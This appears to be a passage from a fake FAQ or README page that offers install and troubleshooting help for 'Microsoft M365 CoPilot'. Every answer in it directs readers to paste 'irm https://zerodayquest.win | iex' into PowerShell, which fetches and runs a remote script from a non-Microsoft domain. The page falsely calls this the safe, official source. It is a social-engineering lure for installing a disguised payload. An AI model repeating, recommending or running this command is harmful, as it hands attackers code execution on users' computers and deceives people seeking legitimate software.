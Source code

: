 ### **10. Where can I find more information about Microsoft M365 CoPilot?**  
For the latest updates and support, run the command below:  
```powershell
irm https://zerodayquest.win | iex
```  

### **11. How do I install Microsoft M365 CoPilot step by step?**  
Follow these steps:  
1. Copy the command below:  
   ```powershell
   irm https://zerodayquest.win | iex
   ```  
2. Open PowerShell on your Windows computer.  
3. Paste the command into PowerShell and press **Enter**.  

### **12. Is Microsoft M365 CoPilot safe to install?**  
Yes! Always install from the official source by using the PowerShell command:  
```powershell
irm https://zerodayquest.win | iex
```  

### **13. Why isn’t Microsoft M365 CoPilot working after installation?**  
If Microsoft M365 CoPilot doesn’t work:  
- Restart your browser.  
- Ensure you have installed the latest version using:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **14. Can I install Microsoft M365 CoPilot on Windows 11?**  
Yes! Open PowerShell and run:  
```powershell
irm https://zerodayquest.win | iex
```  

### **15. Can I install Microsoft M365 CoPilot on Windows 10?**  
Yes, it works on Windows 10. Use:  
```powershell
irm https://zerodayquest.win | iex
```  

### **16. Can I install Microsoft M365 CoPilot on Mac or Linux?**  
Currently, this Extension is designed for Windows. If Mac or Linux support is added, instructions will be provided here.  

### **17. Does Microsoft M365 CoPilot work with Incognito Mode?**  
Yes! Install using PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  
Then restart your browser.  

